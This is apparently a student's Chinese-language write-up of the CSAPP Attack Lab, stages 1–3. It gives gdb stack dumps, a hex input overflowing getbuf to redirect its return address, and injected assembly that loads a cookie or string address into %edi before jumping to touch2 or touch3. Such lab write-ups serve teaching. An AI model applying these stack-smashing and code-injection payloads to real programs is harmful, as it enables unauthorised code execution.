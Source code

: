 # CSAPP-LAB2
``attack``
通过objdump -d进行反汇编代码，通过gdb进行调试
## stage1
本题通过getbuf读取字符到栈上，从而修改返回地址
调用getbuf之前的栈为，00401976即是返回地址
```
0x5561dc78:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x55586000	0x00000000	0x00401976	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
```
我们通过输入字符串，将栈刷掉，使得返回地址为 004017c0，即为touch1的入口地址
```
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
c0 17 40 00
```
getbuf返回之后的栈为
```
0x5561dc78:	0xf0c1c748	0x13004011	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x00000000	0x00000000	0x004017c0	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
```

## stage2
这一题较上一题的不同是 在跳转到touch2之前需要将edi的值修改成cookie的值
如何做困扰我很久，后来参考了csdn的解答才有了思路，我们可以通过修改栈的值来使得返回时跳到另一个位置，通过这个机制，我们能跳到插入代码的位置，插入代码保存在哪里，当然最为保险的还是保存在栈上，另一个问题是如何修改edi之后继续跳转，解决方法还是类似，在栈上插入一条目标地址，然后使用ret即可，这两个操作也是包括在插入的代码中。
下面列出插入的代码
```
movl    $0x59b997fa,%edi
pushq   $0x4017ec  ## touch2函数的入口地址
ret
```
最初栈的返回地址需要是插入代码的起始地址

## stage3
这一题在上一题的基础上，加入了赋值字符串，我们需要将字符串保存到一个位置，然后将其赋值给edi，
字符串保存的位置是本题的关键，在这个上面我卡了一个多小时，一个核心就是在进行push和ret的时候$rsp会覆盖栈上原来的内容，因此我们需要将字符串保存到一个不会被覆盖的地方
经过测试0x5561dca8之前大约100多个字节都是不可靠的地址，它们都会被覆盖掉，因此我们最终将字符串保存到0x5561dcb0这个位置
```
movl    $0x5561dcb0,%edi
pushq   $0x4018fa
ret
```